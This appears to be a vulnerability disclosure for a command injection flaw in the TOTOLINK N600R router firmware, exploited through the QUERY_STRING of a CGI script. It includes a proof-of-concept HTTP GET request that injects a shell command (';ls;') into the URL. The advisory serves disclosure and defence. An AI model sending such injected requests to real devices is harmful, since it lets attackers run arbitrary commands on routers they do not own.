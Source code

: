 # TOTOLINK N600R V5.3c.7159_B20190425 Has an command injection vulnerability

## Overview

- **Type**: command injection vulnerability
- **Vendor**: TOTOLINK (https://www.totolink.net/)
- **Products**: WiFi Router, such as N600R V5.3c.7159_B20190425
- **Firmware download address:**http://www.totolink.cn/data/upload/20210717/bc2b1d2206c4a7b1753c3d870cb15bff.zip



## Description

### 1.Product Information:

TOTOLINK N600R V5.3c.7159_B20190425 router, the latest version of simulation overview：

![Figure 1 Update date of the latest version of the firmware](image/1.png)



### 2. Vulnerability details

TOTOLINK N600R V5.3c.7159_B20190425 was discovered to contain a command injection vulnerability in the "Main" function. This vulnerability allows attackers to execute arbitrary commands via the QUERY_STRING parameter.

![Figure 2 Local of the vulnerability](image/2.png)

We can see that the os will get ` QUERY_STRING`  without filter splice to the string `;ps;` and execute it. So, If  we can control the `QUERY_STRING`, it can be command injection.

## 3. Recurring vulnerabilities and POC

In order to reproduce the vulnerability, the following steps can be followed:

1. Boot the firmware by qemu-system or other ways (real machine)
2. Attack with the following POC attacks

```
GET /cgi-bin/downloadFlile.cgi?;ls; HTTP/1.1 
Host: 192.168.111.12 
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0 
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8 Accept-Language: en-US,en;q=0.5 
Accept-Encoding: gzip, deflate 
Connection: keep-alive 
Upgrade-Insecure-Requests: 1 
Cache-Control: max-age=0
```

![Figure 3 POC attack effect](image/3.png)
